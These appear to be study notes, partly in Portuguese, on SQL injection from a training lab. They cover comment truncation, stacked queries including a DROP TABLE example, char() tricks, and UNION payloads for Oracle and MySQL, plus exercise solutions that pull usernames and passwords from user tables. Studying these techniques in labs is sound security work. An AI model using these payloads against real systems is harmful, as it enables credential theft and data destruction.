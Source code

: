 Example: 
    
    SELECT * FROM users WHERE name = 'admin' --AND pass = 'pass'

;        allows query chaining

Example: 

    SELECT * FROM users; DROP TABLE users;

' , + , || 	 allows string concatenation
Char()	 strings without quotes

Example: 

    SELECT * FROM users WHERE name = '+char(27) OR 1=1



### Union

The Union operator is used, to combine the results of two or more SELECT Statements.

Rules to keep in mind, when working with a UNION:

    The number of columns selected in each statement must be the same.

    The datatype of the first column in the first SELECT statement, must match the datatype of the first column in the second (third, fourth, …​) SELECT Statement. The Same applies to all other columns.

SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;

The UNION ALL Syntax also allows duplicate Values.

para uma injeção de código ser altamente funcional, utilizar o Union acaba sendo a melhor solução, dado que ela proverá um único resultado para queries diferentes
algo que stacked queries não funcionaria, dado que normalmente o código da aplicação espera somente um resultado e o outro, proveniente da query stacked (query empilhada, que pode ser realizada por meio do ";" finalizando a primeira query e continuando com a segunda query normalmente) seria totalmente ignorado

Exmplos:

    ' union select user, password from table users;--+ 
    ') union select banner from v$version;--+ /*oracle*/    '
    ') union select @@version;--+ /*mysql*/    


### Join

The Join operator is used to combine rows from two ore more tables, based on a related column

Solving the next exercise:

    asd'; select * from user_system_data; -- '
    

    t'; select first_name, last_name from user_data where first_name = 'Dave' union all select user_name, password from user_system_data where user_name = 'dave'; -- 

## Manual

